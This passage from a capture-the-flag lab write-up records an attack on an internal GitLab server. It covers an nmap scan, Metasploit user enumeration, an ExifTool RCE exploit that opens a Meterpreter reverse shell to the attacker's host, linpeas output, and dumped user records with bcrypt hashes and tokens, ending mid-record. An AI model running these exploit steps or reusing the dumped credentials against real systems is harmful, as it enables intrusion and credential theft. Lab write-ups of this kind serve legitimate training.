Same here we can run the NMAP to check the server.

```
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e7:e8:43:c6:e0:d4:32:2d:e3:16:31:76:32:a8:9a:be (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCl7+NtRjUhGY8QV5KLq1v8uhW5wV6PcIZ0LtOm5nvvhnpM+PlF4DT8Y8I7prPSwQ0ZT5+m2nXoKpy8/sULk59UvOchrpoPxh3iNKUBkpN8tNg+3BSq4J4OVqIidnG5WLCPuxNWKrQEJLI37fZUJaCVGR/Nmom+gxVUzcIJBnYkwPScr0mQZj2LLNy6EqkuB0XRuMreV6Hvkgiqdm9fz1tGYV9dwGydwAKuWKnGzfamoiA936cffUK0suZ8+wMyjLDO5GLXkjG+iD91FQHKi7k50rH9feHZXGklXEZgJpHYnutH9l0X4kfZZT/cMKtYy8tz9e+fWHZ6vugolu3w7NvF
|   256 03:79:5b:ad:8c:ce:fe:02:0d:cf:8f:8d:21:e6:2b:f6 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOGpLTmnn5/kkfUJbaRmIINqSL5eJPbj+L7Bi3IPZLbL
80/tcp   open  http    syn-ack ttl 64 nginx
|_http-favicon: Unknown favicon MD5: F7E3D97F404E71D302B3239EEF48D5F2
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.9.40.11/users/sign_in
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 38 disallowed entries 
| / /autocomplete/users /search /api /admin /profile 
| /dashboard /users /help /s/ /*/new /*/edit /*/raw 
| /groups/*/analytics /groups/*/contribution_analytics 
| /groups/*/group_members /*/*.git /*/archive/ /*/repository/archive* 
| /*/activity /*/blame /*/commits /*/commit /*/commit/*.patch 
| /*/commit/*.diff /*/compare /*/network /*/graphs 
| /*/merge_requests/*.patch /*/merge_requests/*.diff /*/merge_requests/*/diffs 
| /*/deploy_keys /*/hooks /*/services /*/protected_branches 
|_/*/uploads/ /*/project_members /*/settings
|_http-trane-info: Problem with XML parsing of /evox/about
111/tcp  open  rpcbind syn-ack ttl 64 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
8060/tcp open  http    syn-ack ttl 64 nginx 1.18.0
|_http-title: 404 Not Found
|_http-server-header: nginx/1.18.0
| http-methods: 
|_  Supported Methods: GET HEAD POST
9094/tcp open  unknown syn-ack ttl 64
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=6/24%OT=22%CT=%CU=%PV=Y%G=N%TM=66799C5A%P=x86_64-pc-linux-gnu)
SEQ(SP=107%GCD=1%ISR=107%TI=I%CI=I%II=RI%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)

Uptime guess: 10.246 days (since Fri Jun 14 12:24:23 2024)
TCP Sequence Prediction: Difficulty=263 (Good luck!)
IP ID Sequence Generation: Incrementing by 2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT      ADDRESS
1   17.07 ms 10.9.40.11
```

&nbsp;

# Attacking Gitlab

Now I wasn't able to pwn the INWKT002 because the defender would kill all my attempt but there I found about a note for the Devops on how to work with API pipelines, wonder if is something to do with the attackvector?

I am hoping that I don't need Robert.Martinez credentials for this task..

Let's see again about the note we found before on the "DevOps" folder:

```
Access Token: sgvzNuXEiz48geasgxBD

To Do:
1. Play with API and pipeline features
```

So firstly I registered a dummy user and I created a dummy project.



Before diving into CI/CD pipelines I will check and see that the main version used is the:



Now looking around seems like there is plenty of exploits, what about this one?

https://github.com/inspiringz/CVE-2021-22205/tree/main



It is failing, damn it!

So I went back to Metasploit and used the GrapMQL plugin to enumerate the available users in the system:

```
msf6 auxiliary(scanner/http/gitlab_graphql_user_enum) > run

[+] Enumerated 6 GitLab users
[+] Userlist stored at /root/.msf4/loot/20240628102826_default_10.9.40.11_gitlab.users_021736.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/gitlab_graphql_user_enum) >
```

So Robert.Lanza exist?

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/inception.local]
└─# cat 20240628102826_default_10.9.40.11_gitlab.users_021736.txt 
yovecio
test
alert-bot
Robert.Martinez
Robert.Lanza
root
```

But then looking around seems like I was able to gain RCE via Exfiltool unauthenticated file upload? LOL!!!

```
msf6 exploit(multi/http/gitlab_exif_rce) > run

[*] Started reverse TCP handler on 10.10.14.5:80 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Uploading lBTAcz.jpg to /fsAb7rCmqMF
[+] The target is vulnerable. The error response indicates ExifTool was executed.
[*] Executing Linux Dropper for linux/x86/meterpreter/reverse_tcp
[*] Using URL: http://10.10.14.5:8081/lqg8A7lPze
[*] Uploading YgSVolp1.jpg to /iZKqVkXgkW
[*] Client 10.10.110.250 (Wget/1.20.3 (linux-gnu)) requested /lqg8A7lPze
[*] Sending payload to 10.10.110.250 (Wget/1.20.3 (linux-gnu))
[*] Sending stage (1017704 bytes) to 10.10.110.250
[+] Exploit successfully executed.
[*] Command Stager progress - 100.00% done (113/113 bytes)
[*] Meterpreter session 1 opened (10.10.14.5:80 -> 10.10.110.250:37513) at 2024-06-28 10:33:44 +0200
[*] Server stopped.

meterpreter > ls
Listing: /var/opt/gitlab/gitlab-workhorse
=========================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  41    fil   2020-08-20 01:26:23 +0200  VERSION
100640/rw-r-----  71    fil   2020-08-20 01:26:23 +0200  config.toml
140777/rwxrwxrwx  0     soc   2024-06-28 05:16:36 +0200  socket

meterpreter > getuid 
Server username: git
meterpreter >
```

We can see a bit of the config:

```
meterpreter > cat .gitconfig
# This file is managed by gitlab-ctl. Manual changes will be
# erased! To change the contents below, edit /etc/gitlab/gitlab.rb
# and run `sudo gitlab-ctl reconfigure`.

[user]
        name = GitLab
        email = gitlab@gitlab.inception.local
[core]
        autocrlf = input
        alternateRefsCommand="exit 0 #"
        fsyncObjectFiles = true
[gc]
        auto = 0
meterpreter >
```

&nbsp;

# PE

Now when I looked around no users where on the /home folder which might be either a FS permission or sign of docker escape?

But I will upload Linpeas and check from there what can I find?

```
╔═══════════════════╗
═══════════════════════════════╣ Basic information ╠═══════════════════════════════
                               ╚═══════════════════╝
OS: Linux version 5.4.0-170-generic (buildd@lcy02-amd64-059) (gcc version 9.4.0 (Ubuntu 9.4.0-1ubuntu1~20.04.2)) #188-Ubuntu SMP Wed Jan 10 09:51:01 UTC 2024
User & Groups: uid=998(git) gid=998(git) groups=998(git)
Hostname: inwebgl
Writable folder: /dev/shm
[+] /bin/ping is available for network discovery (linpeas can discover hosts, learn more with -h)
[+] /bin/bash is available for network discovery, port scanning and port forwarding (linpeas can discover hosts, scan ports, and forward ports. Learn more with -h)
[+] /bin/nc is available for network discovery & port scanning (linpeas can discover hosts and scan ports, learn more with -h)


Caching directories . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . DONE

                              ╔════════════════════╗
══════════════════════════════╣ System Information ╠══════════════════════════════
                              ╚════════════════════╝
╔══════════╣ Operative system
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#kernel-exploits
Linux version 5.4.0-170-generic (buildd@lcy02-amd64-059) (gcc version 9.4.0 (Ubuntu 9.4.0-1ubuntu1~20.04.2)) #188-Ubuntu SMP Wed Jan 10 09:51:01 UTC 2024
Distributor ID:	Ubuntu
Description:	Ubuntu 20.04.6 LTS
Release:	20.04
Codename:	focal

╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version
Sudo version 1.8.31
```

Nothing strange, but I see some config loaded for git and similar:

```
gitlab-+     873  0.0  0.3 1356936 8004 ?        SLsl Jun27   0:01  |   _ /opt/gitlab/embedded/bin/grafana-server -config /var/opt/gitlab/grafana/grafana.ini
root         836  0.0  0.0   2368   544 ?        Ss   Jun27   0:00  _ runsv prometheus
root         863  0.0  0.0   2512   548 ?        S    Jun27   0:00  |   _ svlogd -tt /var/log/gitlab/prometheus
gitlab-+     879  1.6  6.0 1072864 122048 ?      Ssl  Jun27   5:22  |   _ /opt/gitlab/embedded/bin/prometheus --web.listen-address=localhost:9090 --storage.tsdb.path=/var/opt/gitlab/prometheus/data --config.file=/var/opt/gitlab/prometheus/prometheus.yml
root         837  0.0  0.0   2368   544 ?        Ss   Jun27   0:00  _ runsv gitaly
root         862  0.0  0.0   2512   640 ?        S    Jun27   0:00  |   _ svlogd /var/log/gitlab/gitaly
git          874  0.0  0.0 636520   960 ?        Ssl  Jun27   0:01  |   _ /opt/gitlab/embedded/bin/gitaly-wrapper /opt/gitlab/embedded/bin/gitaly /var/opt/gitlab/gitaly/config.toml
git          904  0.1  1.1 1034236 22244 ?       Sl   Jun27   0:33  |       _ /opt/gitlab/embedded/bin/gitaly /var/opt/gitlab/gitaly/config.toml
git          966  0.1  1.0 1332500 21276 ?       Sl   Jun27   0:35  |           _ ruby /opt/gitlab/embedded/service/gitaly-ruby/bin/gitaly-ruby 904 /var/opt/gitlab/gitaly/internal_sockets/ruby.0
git          967  0.1  1.4 1331248 29668 ?       Sl   Jun27   0:34  |           _ ruby /opt/gitlab/embedded/service/gitaly-ruby/bin/gitaly-ruby 904 /var/opt/gitlab/gitaly/interna
```

I see a redis?

```
gitlab-+     867  0.0  0.4 644596  8224 ?        Ssl  Jun27   0:05  |   _ /opt/gitlab/embedded/bin/redis_exporter --web.listen-address=localhost:9121 --redis.addr=unix:///var/opt/gitlab/redis/redis.socket
root         840  0.0  0.0   2368   500 ?        Ss   Jun27   0:00  _ runsv sidekiq
root         857  0.0  0.0   2512   576 ?        S    Jun27   0:00  |   _ svlogd /var/log/gitlab/sidekiq
git          872  0.0  0.1 115584  3804 ?        Ssl  Jun27   0:00  |   _ ruby /opt/gitlab/embedded/service/gitlab-rails/bin/sidekiq-cluster -e production -r /opt/gitlab/embedded/service/gitlab-rails -m 50 --timeout 25 *
```

Many non standard ports running internally?

```
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports
tcp        0      0 127.0.0.1:9100          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:9229          0.0.0.0:*               LISTEN      878/gitlab-workhors 
tcp        0      0 0.0.0.0:111             0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      853/puma 4.3.3.gitl 
tcp        0      0 127.0.0.1:9168          0.0.0.0:*               LISTEN      866/puma 4.3.3.gitl 
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8082          0.0.0.0:*               LISTEN      990/sidekiq 5.2.9 q 
tcp        0      0 127.0.0.1:9236          0.0.0.0:*               LISTEN      904/gitaly          
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:8060            0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:9121          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:9090          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:9187          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:9093          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::111                  :::*                    LISTEN      -                   
tcp6       0      0 ::1:9168                :::*                    LISTEN      866/puma 4.3.3.gitl 
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::9094                 :::*                    LISTEN      -
```

I only see root here:

```
╔══════════╣ Superusers
root:x:0:0:root:/root:/bin/bash

╔══════════╣ Users with console
git:x:998:998::/var/opt/gitlab:/bin/sh
gitlab-prometheus:x:995:995::/var/opt/gitlab/prometheus:/bin/sh
gitlab-psql:x:996:996::/var/opt/gitlab/postgresql:/bin/sh
root:x:0:0:root:/root:/bin/bash
```

Something juicy??

```
══╣ Possible private SSH keys were found!
/var/opt/gitlab/gitlab-rails/etc/secrets.yml
```

And the password hashes from Redis of the users?

```
╔══════════╣ Searching GitLab related files
gitlab-rails was found. Trying to dump users...
{"id"=>5,
 "email"=>"test@best.com",
 "encrypted_password"=>
  "$2a$10$K7ZZawPB5QBd/.l0K2O.3u3av3HIKj1VeASaYFdZ3CESBiL2cCwq6",
 "reset_password_token"=>nil,
 "reset_password_sent_at"=>nil,
 "remember_created_at"=>nil,
 "sign_in_count"=>1,
 "current_sign_in_at"=>Tue, 12 Jan 2021 02:49:00 EST -05:00,
 "last_sign_in_at"=>Tue, 12 Jan 2021 02:49:00 EST -05:00,
 "current_sign_in_ip"=>"10.9.10.10",
 "last_sign_in_ip"=>"10.9.10.10",
 "created_at"=>Tue, 12 Jan 2021 02:49:00 EST -05:00,
 "updated_at"=>Tue, 12 Jan 2021 02:49:01 EST -05:00,
 "name"=>"Test",
 "admin"=>false,
 "projects_limit"=>100000,
 "skype"=>"",
 "linkedin"=>"",
 "twitter"=>"",
 "failed_attempts"=>0,
 "locked_at"=>nil,
 "username"=>"test",
 "can_create_group"=>true,
 "can_create_team"=>false,
 "state"=>"active",
 "color_scheme_id"=>1,
 "password_expires_at"=>nil,
 "created_by_id"=>nil,
 "last_credential_check_at"=>nil,
 "avatar"=>nil,
 "confirmation_token"=>nil,
 "confirmed_at"=>Tue, 12 Jan 2021 02:49:00 EST -05:00,
 "confirmation_sent_at"=>nil,
 "unconfirmed_email"=>nil,
 "hide_no_ssh_key"=>false,
 "website_url"=>"",
 "admin_email_unsubscribed_at"=>nil,
 "notification_email"=>"test@best.com",
 "hide_no_password"=>false,
 "password_automatically_set"=>false,
 "location"=>nil,
 "encrypted_otp_secret"=>nil,
 "encrypted_otp_secret_iv"=>nil,
 "encrypted_otp_secret_salt"=>nil,
 "otp_required_for_login"=>false,
 "otp_backup_codes"=>nil,
 "public_email"=>"",
 "dashboard"=>"projects",
 "project_view"=>"files",
 "consumed_timestep"=>nil,
 "layout"=>"fixed",
 "hide_project_limit"=>false,
 "note"=>nil,
 "unlock_token"=>nil,
 "otp_grace_period_started_at"=>nil,
 "external"=>false,
 "incoming_email_token"=>"dauqsbqhw1x3t1gv4jjhicuyj",
 "organization"=>nil,
 "auditor"=>false,
 "require_two_factor_authentication_from_group"=>false,
 "two_factor_grace_period"=>48,
 "last_activity_on"=>Tue, 12 Jan 2021,
 "notified_of_own_activity"=>false,
 "preferred_language"=>"en",
 "email_opted_in"=>nil,
 "email_opted_in_ip"=>nil,
 "email_opted_in_source_id"=>nil,
 "email_opted_in_at"=>nil,
 "theme_id"=>2,
 "accepted_term_id"=>nil,
 "feed_token"=>"xNnwwpEv8PV3YNYAjEEP",
 "private_profile"=>false,
 "roadmap_layout"=>nil,
 "include_private_contributions"=>nil,
 "commit_email"=>nil,
 "group_view"=>nil,
 "managing_group_id"=>nil,
 "first_name"=>nil,
 "last_name"=>nil,
 "static_object_token"=>nil,
 "role"=>nil,
 "user_type"=>nil,
 "otp_secret"=>nil,
 "bio"=>nil}
{"id"=>6,
 "email"=>"yovecio@test.htb",
 "encrypted_password"=>
  "$2a$10$h2iirZpQtmbxJRUw.VjEv.K66SVlc5W45mOnCeclSnH2lOUjjahYm",
 "reset_password_token"=>nil,
 "reset_password_sent_at"=>nil,
 "remember_created_at"=>nil,
 "sign_in_count"=>1,
 "current_sign_in_at"=>Fri, 28 Jun 2024 03:12:07 EST -05:00,
 "last_sign_in_at"=>Fri, 28 Jun 2024 03:12:07 EST -05:00,
 "current_sign_in_ip"=>"10.9.10.10",
 "last_sign_in_ip"=>"10.9.10.10",
 "created_at"=>Fri, 28 Jun 2024 03:12:07 EST -05:00,
 "updated_at"=>Fri, 28 Jun 2024 03:27:57 EST -05:00,
 "name"=>"Yo Vecio",
 "admin"=>false,
 "projects_limit"=>100000,
 "skype"=>"",
 "linkedin"=>"",
 "twitter"=>"",
 "failed_attempts"=>0,
 "locked_at"=>nil,
 "username"=>"yovecio",
 "can_create_group"=>true,
 "can_create_team"=>false,
 "state"=>"active",
 "color_scheme_id"=>1,
 "password_expires_at"=>nil,
 "created_by_id"=>nil,
 "last_credential_check_at"=>nil,
 "avatar"=>nil,
 "confirmation_token"=>nil,
 "confirmed_at"=>Fri, 28 Jun 2024 03:12:06 EST -05:00,
 "confirmation_sent_at"=>nil,
 "unconfirmed_email"=>nil,
 "hide_no_ssh_key"=>false,
 "website_url"=>"",
 "admin_email_unsubscribed_at"=>nil,
 "notification_email"=>"yovecio@test.htb",
 "hide_no_password"=>false,
 "password_automatically_set"=>false,
 "location"=>nil,
 "encrypted_otp_secret"=>nil,
 "encrypted_otp_secret_iv"=>nil,
 "encrypted_otp_secret_salt"=>nil,
 "otp_required_for_login"=>false,
 "otp_backup_codes"=>nil,
 "public_email"=>"",
 "dashboard"=>"projects",
 "project_view"=>"files",
 "consumed_timestep"=>nil,
 "layout"=>"fixed",
 "hide_project_limit"=>false,
 "note"=>nil,
 "unlock_token"=>nil,
 "otp_grace_period_started_at"=>nil,
 "external"=>false,
 "incoming_email_token"=>"7v9uspwvoxltdebbbkbbi36oq",
 "organization"=>nil,
 "auditor"=>false,
 "require_two_factor_authentication_from_group"=>false,
 "two_factor_grace_period"=>48,
 "last_activity_on"=>Fri, 28 Jun 2024,
 "notified_of_own_activity"=>false,
 "preferred_language"=>"en",
 "email_opted_in"=>nil,
 "email_opted_in_ip"=>nil,
 "email_opted_in_source_id"=>nil,
 "email_opted_in_at"=>nil,
 "theme_id"=>2,
 "accepted_term_id"=>nil,
 "feed_token"=>"yjddSVrvsP9K7zCaKZxs",
 "private_profile"=>false,
 "roadmap_layout"=>nil,
 "include_private_contributions"=>nil,
 "commit_email"=>nil,
 "group_view"=>nil,
 "managing_group_id"=>nil,
 "first_name"=>nil,
 "last_name"=>nil,
 "static_object_token"=>nil,
 "role"=>nil,
 "user_type"=>nil,
 "otp_secret"=>nil,
 "bio"=>nil}
{"id"=>4,
 "email"=>"alert@gitlab.inception.local",
 "encrypted_password"=>"",
 "reset_password_token"=>nil,
 "reset_password_sent_at"=>nil,
 "remember_created_at"=>nil,
 "sign_in_count"=>0,
 "current_sign_in_at"=>nil,
 "last_sign_in_at"=>nil,
 "current_sign_in_ip"=>nil,
 "last_sign_in_ip"=>nil,
 "created_at"=>Wed, 26 Aug 2020 11:28:53 EST -05:00,
 "updated_at"=>Wed, 26 Aug 2020 11:28:53 EST -05:00,
 "name"=>"GitLab Alert Bot",
 "admin"=>false,
 "projects_limit"=>100000,
 "skype"=>"",
 "linkedin"=>"",
 "twitter"=>"",
 "failed_attempts"=>0,
 "locked_at"=>nil,
 "username"=>"alert-bot",
 "can_create_group"=>true,
 "can_create_team"=>false,
 "state"=>"active",
 "color_scheme_id"=>1,
 "password_expires_at"=>nil,
 "created_by_id"=>nil,
 "last_credential_check_at"=>nil,
 "avatar"=>"alert-bot.png",
 "confirmation_token"=>"Dj4cRUnxkhEB8wqfYMTF",
 "confirmed_at"=>nil,
 "confirmation_sent_at"=>Wed, 26 Aug 2020 11:28:53 EST -05:00,
 "unconfirmed_email"=>nil,
 "hide_no_ssh_key"=>false,
 "website_url"=>"",
 "admin_email_unsubscribed_at"=>nil,
 "notification_email"=>nil,
 "hide_no_password"=>false,
 "password_automatically_set"=>false,
 "location"=>nil,
 "encrypted_otp_secret"=>nil,
 "encrypted_otp_secret_iv"=>nil,
 "encrypted_otp_secret_salt"=>nil,
 "otp_required_for_login"=>false,
 "otp_backup_codes"=>nil,
 "public_email"=>"",
 "dashboard"=>"projects",
 "project_view"=>"files",
 "consumed_timestep"=>nil,
 "layout"=>"fixed",
 "hide_project_limit"=>false,
 "note"=>nil,
 "unlock_token"=>nil,
 "otp_grace_period_started_at"=>nil,
 "external"=>false,
 "incoming_email_token"=>"6beo5rtjstgrwu1tybdlq2qrd",
 "organization"=>nil,
 "auditor"=>false,
 "require_two_factor_authentication_from_group"=>false,
 "two_factor_grace_period"=>48,
 "last_activity_on"=>nil,
 "notified_of_own_activity"=>false,
 "preferred_language"=>"en",
 "email_opted_in"=>nil,
 "email_opted_in_ip"=>nil,
 "email_opted_in_source_id"=>nil,
 "email_opted_in_at"=>nil,
 "theme_id"=>2,
 "accepted_term_id"=>nil,
 "feed_token"=>nil,
 "private_profile"=>false,
 "roadmap_layout"=>nil,
 "include_private_contributions"=>nil,
 "commit_email"=>nil,
 "group_view"=>nil,
 "managing_group_id"=>nil,
 "first_name"=>nil,
 "last_name"=>nil,
 "static_object_token"=>nil,
 "role"=>nil,
 "user_type"=>"alert_bot",
 "otp_secret"=>nil,
 "bio"=>nil}
{"id"=>1,
 "email"=>"admin@example.com",
 "encrypted_password"=>
  "$2a$10$vvXG.FFwiGKtxn9amItS/Okp9bLxY/id5o7eKcGDK/TMOAXQFU24O",
 "reset_password_token"=>nil,
 "reset_password_sent_at"=>nil,
 "remember_created_at"=>nil,
 "sign_in_count"=>5,
 "current_sign_in_at"=>Wed, 20 Jan 2021 02:23:32 EST -05:00,
 "last_sign_in_at"=>Thu, 20 Aug 2020 19:19:56 EST -05:00,
 "current_sign_in_ip"=>"172.16.255.6",
 "last_sign_in_ip"=>"10.255.255.6",
 "created_at"=>Wed, 19 Aug 2020 18:25:51 EST -05:00,
 "updated_at"=>Wed, 20 Jan 2021 02:23:51 EST -05:00,
 "name"=>"Administrator",
 "admin"=>true,
 "projects_limit"=>100000,
 "skype"=>"",
 "linkedin"=>"",
 "twitter"=>"",
 "failed_attempts"=>0,
 "locked_at"=>nil,
 "username"=>"root",
 "can_create_group"=>true,
 "can_create_team"=>false,
 "state"=>"active",
 "color_scheme_id"=>1,
 "password_expires_at"=>nil,
 "created_by_id"=>nil,
 "last_credential_check_at"=>nil,
 "avatar"=>nil,
 "confirmation_token"=>nil,
 "confirmed_at"=>Wed, 19 Aug 2020 18:25:51 EST -05:00,
 "confirmation_sent_at"=>nil,
 "unconfirmed_email"=>nil,
 "hide_no_ssh_key"=>true,
 "website_url"=>"",
 "admin_email_unsubscribed_at"=>nil,
 "notification_email"=>"admin@example.com",
 "hide_no_password"=>false,
 "password_automatically_set"=>false,
 "location"=>nil,
 "encrypted_otp_secret"=>
  "RGlkZUiG32SS/Ial9PLN2y00ULgRKnAsmu6CP/sftWLm9uzlwQ/1eU7pxld4\n" + "L3eT\n",
 "encrypted_otp_secret_iv"=>"qAbwBJ5APi/Cth4NGoOR5g==\n",
 "encrypted_otp_secret_salt"=>"_FuR14WImC5DlEbO6Oxg9WQ==\n",
 "otp_required_for_login"=>false,
 "otp_backup_codes"=>nil,
 "public_email"=>"",
 "dashboard"=>"projects",
 "project_view"=>"files",
 "consumed_timestep"=>nil,
 "layout"=>"fixed",
 "hide_project_limit"=>false,
 "note"=>nil,
 "unlock_token"=>nil,
 "otp_grace_period_started_at"=>Wed, 19 Aug 2020 18:30:45 EST -05:00,
 "external"=>false,
 "incoming_email_token"=>"e524jo1u7y75ikydkdhdpma71",
 "organization"=>nil,
 "auditor"=>false,
 "require_two_factor_authentication_from_group"=>false,
 "two_factor_grace_period"=>48,
 "last_activity_on"=>Wed, 20 Jan 2021,
 "notified_of_own_activity"=>false,
 "preferred_language"=>"en",
 "email_opted_in"=>nil,
 "email_opted_in_ip"=>nil,
 "email_opted_in_source_id"=>nil,
 "email_opted_in_at"=>nil,
 "theme_id"=>1,
 "accepted_term_id"=>nil,
 "feed_token"=>"tuUya1JvWZBrMGxX5seR",
 "private_profile"=>false,
 "roadmap_layout"=>nil,
 "include_private_contributions"=>nil,
 "commit_email"=>nil,
 "group_view"=>nil,
 "managing_group_id"=>nil,
 "first_name"=>nil,
 "last_name"=>nil,
 "static_object_token"=>nil,
 "role"=>nil,
 "user_type"=>nil,
 "otp_secret"=>nil,
 "bio"=>nil}
{"id"=>3,
 "email"=>"robert.martinez@inception.local",
 "encrypted_password"=>
  "$2a$10$IAiPb.ZlafDT5q9WQlpcZeJKevHfXLUBeSFL1BEk9xc508WzBFfiK",
 "reset_password_token"=>nil,
 "reset_password_sent_at"=>nil,
 "remember_created_at"=>nil,
 "sign_in_count"=>3,
 "current_sign_in_at"=>Thu, 20 Aug 2020 12:59:42 EST -05:00,
 "last_sign_in_at"=>Thu, 20 Aug 2020 05:59:42 EST -05:00,
 "current_sign_in_ip"=>"10.255.255.6",
 "last_sign_in_ip"=>"10.255.255.6",
 "created_at"=>Wed, 19 Aug 2020 18:46:12 EST -05:00,
 "updated_at"=>Wed, 20 Jan 2021 03:44:37 EST -05:00,
 "name"=>"Robert Martinez",
 "admin"=>false,
 "projects_limit"=>100000,
 "skype"=>"",
 "linkedin"=>"",
 "twitter"=>"",
 "failed_attempts"=>0,
 "locked_at"=>nil,
 "username"=>"Robert.Martinez",
 "can_create_group"=>true,
 "can_create_team"=>false,
 "state"=>"active",
 "color_scheme_id"=>1,
 "password_expires_at"=>nil,
 "created_by_id"=>nil,
